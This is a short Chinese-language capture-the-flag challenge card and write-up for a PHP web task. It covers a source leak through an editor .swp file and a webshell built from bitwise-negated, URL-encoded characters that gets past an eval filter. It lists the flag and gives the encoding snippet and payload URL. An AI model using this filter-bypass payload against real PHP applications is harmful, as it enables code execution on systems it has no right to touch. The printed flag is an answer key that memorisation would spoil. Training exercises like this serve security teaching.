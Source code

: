 - **题目名称：** simple_php
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** tutu
- **考点：** 

1.  源码泄露swp
2.  特殊字符webshell构造

- **描述：** 你这shell保熟吗？

- **flag：** flag{a3b5c6d-563ae31f-b6672e33ed-ff63a5b8}

- **Writeup：** 

  根据提示，访问index.php.swp得到源码，进行审计发现大部分webshell构造方式都被ban，因为eval()可以利用`('getflag')();`的方式来执行函数，所以可以将字符串取反后装成十六进制，添加上%构造 URL 编码的特殊字符串，再通过取反构造webshell：

  ```php
  <?php
  echo bin2hex(~'getflag'); //989a8b99939e98-->%98%9a%8b%99%93%9e%98
  //payload: index.php?code=(~%98%9a%8b%99%93%9e%98)();
  ```
